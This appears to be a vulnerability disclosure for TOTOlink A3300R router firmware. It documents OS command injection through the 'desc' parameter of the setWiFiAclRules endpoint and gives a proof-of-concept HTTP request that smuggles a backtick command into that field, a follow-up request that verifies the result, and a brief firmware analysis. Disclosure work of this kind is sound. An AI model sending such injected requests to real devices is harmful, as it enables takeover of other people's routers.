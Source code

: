# TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/7/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setWiFiAclRules` request,`desc` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=C6F41C563E86A379 HTTP/1.1
Host: itotolink.net
Content-Length: 130
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/advance/acl.html?token=C6F41C563E86A379
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=eER8ohUW; PrivateKey=73756ACCDA18C09131DFDF6F7C5AA16B; timeout=2
Connection: close

{"mac":"14:16:9E:CC:BB:3F","desc":"funny-mud-peee`ls>/web/cmdi15.txt`","addEffect":"1","wifiIdx":"0","topicurl":"setWiFiAclRules"}
```

injection the command "ls>/web/cmdi15.txt"

![b0870a83252c01cad4f1774f3961469](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/15/img/b0870a83252c01cad4f1774f3961469.png)

check the result.

```
GET /cmdi15.txt HTTP/1.1
Host: itotolink.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

```

![46f04bf4acc9820a9576fd78c1b6857](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/15/img/46f04bf4acc9820a9576fd78c1b6857.png)

## Analysis

sub_4217E0 will handle the `setWiFiAclRules` request. sub_4217E0 get `desc` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240119144150895](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/15/img/image-20240119144150895.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/8/img/image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/8/img/image-20240109131330610.png)

